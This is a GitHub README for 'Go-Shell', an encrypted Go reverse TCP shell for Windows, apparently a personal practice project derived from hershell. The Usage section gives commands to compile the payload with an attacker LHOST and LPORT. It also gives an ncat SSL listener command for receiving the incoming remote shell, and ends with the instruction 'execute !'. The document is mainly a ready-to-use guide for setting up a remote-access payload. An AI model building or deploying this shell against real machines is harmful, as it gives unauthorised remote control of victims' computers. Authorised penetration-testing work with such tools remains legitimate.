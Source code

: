 <style>
.img1 {
  float: left;
  width: 40px;
  height: 40px;
}

.img2 {
  float: right;
  width: 40px;
  height: 40px;
}

</style>

<div >
    <img src="assets/owl.png" class="img1"/>
    <img src="assets/medusa.png" class="img2"/>
    <h1 align="center" > Go-Shell - Golang Reverse TCP Shell </h1>
</div>

## About

Windows 32/64 encrypted reverse TCP shell a simplified version of [hershell](https://github.com/lesnuages/hershell) which has a lot more features like cross compile to linux (check it out!).

<img src="assets/gopher.png" align="right" width="180" height="200" />

## Features
- Encrypted
- Can compile to 32 or 64bit architecture
- Certificate fingerprint pinning 

## Why?

I just wanted to practice some coding and a reverse tcp shell for windows with encryption and no extra functionalities like meterpreter integration

## Usage

- Clone the repo to compile it and modify it (Make sure to have golang installed!)
```bash
git clone 
```
- Prepare and compile the payload
```bash
# Generate Certificates
make prepare
# Compile Shell 
make windows64/windows32 LHOST=[IP] LPORT=[PORT]
# Delete Certificates and shell
make clean
```
- Set up a listener with ncat or any tool that can handle incoming ssl connections
```bash
# Set up listener
ncat --ssl --ssl-cert server.pem --ssl-key server.key -lnvp [PORT]
```
- execute !

if you want a more in depth explanation of how it works check out [hershell](https://github.com/lesnuages/hershell).

<h2 align="center" > LVX-SIT</h2>
<h3 align="center" > MMDCCLXXV -- Ab urbe condita </h3>